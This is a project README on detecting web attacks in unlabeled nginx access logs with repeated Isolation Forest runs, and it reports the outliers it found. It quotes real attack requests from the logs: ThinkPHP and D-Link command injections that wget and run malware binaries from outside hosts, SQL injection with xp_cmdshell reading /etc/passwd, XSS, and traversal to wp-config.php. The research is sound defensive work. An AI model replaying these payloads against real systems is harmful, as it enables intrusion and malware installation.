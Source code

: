 # Walu(Web Application Log Unveiler)

https://www.scutum.jp/information/waf_tech_blog/2021/01/waf-blog-077.html
 
This is a memo of the result of own research from the above Blog(WAF Tech Blog).

We want to detect an attack without labeling. For that purpose, A data away from the "normal" in an anomaly detection algorithm, that is "outliers", Let's define it as an attack. Isolation forest is used in the above Blog. The dataset is Access.log.zip at [Harvard Dataverse](https://dataverse.harvard.edu/dataset.xhtml?persistentId=doi:10.7910/DVN/3QBYB5). nginx has collected access logs for several days from January 2019 on a real shopping site in Iran. 10.36 million lines (3.3GB).

From the data extracted under the same conditions as the above Blog, I mappied 10000 randomly extracted data to two dimensions (Image 1). The graph shows that it is Scale-free. [ipynb/viz01.ipynb](ipynb/viz01.ipynb) [[mybinder.org](https://mybinder.org/v2/gh/kenjiaiko/Walu/main?filepath=ipynb%2Fviz01.ipynb)]

<img src="ipynb/t-SNE10000.jpg" width="300"> (Image 1)

Large clusters are judged to be normal in anomaly detection, so small clusters are "outliers". Because it is Scale-free, the (new) dataset with all large clusters removed is also Scale-free. And the Isolation forest is applied it again, further outliers will be calculated. If you set the threshold to 0.25 and apply the Isolation forest twice...

```
$ ./run.sh 2 0.25
```

```
$ head -n 2 data/result_by_ip.txt
0.186 185.222.202.118 - - [22/Jan/2019:09:15:46 +0330] "GET /public/index.php?s=/index/%5Cthink%5Capp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]=cd%20/tmp;wget%20http://185.222.202.118/bins/rift.x86;cat%20rift.x86%20%3E%20efjins;chmod%20777%20efjins;./efjins%20thinkphp HTTP/1.1" 301 178 "-" "python-requests/2.4.3 CPython/2.7.9 Linux/3.16.0-4-amd64" "-"
0.188 62.210.157.10 - - [25/Jan/2019:21:20:36 +0330] "GET /wp-content/plugins/wptf-image-gallery/lib-mbox/ajax_load.php?url=../../../../wp-config.php HTTP/1.1" 301 178 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0" "-"
```

An attack access comes on the first and second lines. Lines 61 and 62 include SELECT and UNION.

```
0.261 176.121.14.183 - - [25/Jan/2019:12:07:57 +0330] "GET /image/29000?name=6aba3c.jpg&amp%3Bwh=200x200&HMCj%3D1300%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23 HTTP/1.1" 200 1035 "-" "Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9b4) Gecko/2008031317 Firefox/3.0b4" "-"
0.261 5.101.40.234 - - [23/Jan/2019:06:53:01 +0330] "GET /image/{{basketItem.id}}?type=productModel&wh=50x50&fhnz%3D1551%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23 HTTP/1.1" 301 178 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/534.24 (KHTML, like Gecko) Chrome/11.0.696.3 Safari/534.24" "-"
```

Next, We consider the case of the features are not selected by experts. For example, when it features only Count of a specific character.

```
$ python printspchars.py > features.txt
$ ./run.sh 2 0.30
```

Suspicious access continues from the beginning, but it is clear attack from the 11th lines onwards.
 
```
0.204 108.61.86.94 - - [24/Jan/2019:13:08:01 +0330] "GET /login.cgi?cli=aa%20aa%27;wget%20http://108.61.86.94/bins/Solstice.mips%20-O%20->%20/tmp/.Solstice;chmod%20777%20/tmp/.Solstice;/tmp/.Solstice%20dlink%27$ HTTP/1.1" 400 166 "-" "Solstice/2.0" "-"
```

It is not so bad, however, the access that was on the second line earlier is on the 107th line: a score of 0.344, which is quite late.

```
0.344 62.210.157.10 - - [25/Jan/2019:21:20:36 +0330] "GET /wp-content/plugins/wptf-image-gallery/lib-mbox/ajax_load.php?url=../../../../wp-config.php HTTP/1.1" 301 178 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0" "-"
```

Of course, it is better for experts to set the features, but it seems that even appropriate features will give good results (to the extent that they do not interfere with the analysis).

### Analysis

- Sample code (python). [ipynb/viz02.ipynb](ipynb/viz02.ipynb)
- Repeat the Isolation forest for 10.36 million rows of unlabeled data.
- Extract the access with the highest score for each IP. 742 lines. [ipynb/result_by_ip.txt](ipynb/result_by_ip.txt)
- Humans confirm 742 lines.

If all the outliers are truly attacks, this is OK, but of course this is not the case, so humans will check from here. The first 29 lines of [ipynb/result_by_ip.txt](ipynb/result_by_ip.txt) are followed by rapidGrails/jsonList requests. Well it wouldn't be an attack. And on line 30, a clear attack is found.
 
 ```
-0.7341514235140854 202.70.250.38 - - [24/Jan/2019:15:58:56 +0330] GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://185.255.25.168/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1\x00 400 166 - - -
```

The first pattern is the attack to do "shell_exec" and "wget" to index.php. You can find more than one(lines 32-50). Let this be pattern1.

```
-0.7335728824690786 176.121.14.183 - - [25/Jan/2019:12:07:57 +0330] GET /image/29000?name=6aba3c.jpg&amp%3Bwh=200x200&HMCj%3D1300%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23 HTTP/1.1 200 1035 - Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9b4) Gecko/2008031317 Firefox/3.0b4 -
```

Then the 51th line, Contains UNION, SELECT, script and alert. Access apparently intended for attack. This is pattern2. After that, pattern1 follows, and pattern2 appears again on line 126 and line 206.

```
-0.6859619404158754 151.25.29.64 - - [22/Jan/2019:05:55:47 +0330] GET /login.cgi?cli=aa%20aa%27;wget%20http://217.61.5.226/bins/Solstice.mips%20-O%20->%20/tmp/.Solstice;chmod%20777%20/tmp/.Solstice;/tmp/.Solstice%20dlink%27$ HTTP/1.1 400 166 - Solstice/2.0 -
```

Contains login.cgi and wget. This is pattern3.

```
-0.6626657948031308 37.137.14.150 - - [22/Jan/2019:16:09:03 +0330] GET /m/product/33487/64141/%D8%AC%D8%A7%D8%B1%D9%88%D8%A8%D8%B1%D9%82%DB%8C-%D8%A8%D8%A7-%D9%BE%D8%A7%DA%A9%D8%AA-%D8%A8%D9%88%D8%B4-%D9%85%D8%AF%D9%84-BGL8PRO5IR%22%3E%3Cdiv%20class%3D%22kharid-khoob%22style%3D%22background-image%3A%20url%28%2FdiscountLabel%2Fget%2F3?utm_content=2005&utm_medium=26&utm_campaign=GPB&utm_term=209&type=desktopSmallIcon%29%3Bwidth%3A75px%3Bheight%3A77px%3B%3Futm_source%3D6 HTTP/1.1 404 211 https://www.garda.ir/%D9%84%D9%88%D8%A7%D8%B2%D9%85-%D8%AE%D8%A7%D9%86%DA%AF%DB%8C-%D9%88-%D8%A2%D8%B4%D9%BE%D8%B2%D8%AE%D8%A7%D9%86%D9%87/%D8%AC%D8%A7%D8%B1%D9%88-%D8%A8%D8%B1%D9%82%DB%8C/%D8%AC%D8%A7%D8%B1%D9%88-%D8%A8%D8%B1%D9%82%DB%8C-%D8%A8%D9%88%D8%B4/%D8%AC%D8%A7%D8%B1%D9%88%D8%A8%D8%B1%D9%82%DB%8C-%D8%A8%D8%A7-%D9%BE%D8%A7%DA%A9%D8%AA-%D8%A8%D9%88%D8%B4-%D9%85%D8%AF%D9%84-BGL8PRO5IR-214503 Mozilla/5.0 (iPhone; CPU iPhone OS 9_3_5 like Mac OS X) AppleWebKit/601.1.46 (KHTML, like Gecko) Version/9.0 Mobile/13G36 Safari/601.1 -
```

```
-0.6582348010972741 2.183.9.23 - - [23/Jan/2019:10:36:16 +0330] GET /image/29/productTypeTy%3C/div%3E%3Cstyle%3E.notFoundList%20%7Bdisplay:%20block;padding-top:%2010px;%7D.notFoundList%20li%20%7Blist-style:%20none;display:%20inline-block;margin:%205px;%7D.notFoundList%20a%20%7Blist-style:%20none;background:%20 HTTP/1.1 200 11 https://www.zanbil.ir/filter/b136,b261,b74,p5 Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36 -
```

Line 230, /m/product/ with div tag. pattern4. Line 242, closed with /div tag. pattern4 variant.

```
-0.6057850284293474 62.210.157.10 - - [25/Jan/2019:21:20:36 +0330] GET /wp-content/plugins/wptf-image-gallery/lib-mbox/ajax_load.php?url=../../../../wp-config.php HTTP/1.1 301 178 - Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0 -
```

```
-0.5928439132758191 104.249.46.47 - - [26/Jan/2019:18:30:49 +0330] GET /image/27458?name=...............1.jpg&wh=200x200 HTTP/1.1 200 5937 - Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko -
```

Line 304, ../wp-config.php. pattern5. name=....jpg. (Not an attack) is pattern5 variant.

The above is attack access. After that, you can devise a method to detect patterns 1 to 5.

If a label is attached, the rest can be learned by an appropriate algorithm. The challenge is how can "labeling" be automated? In the above, humans confirmed the last 742 lines, but if this can be fully automated, only attacks can be detected from the dataset. Of course, Isolation forest alone (or rather a single algorithm) would not be possible, finding a solution is a challenge.

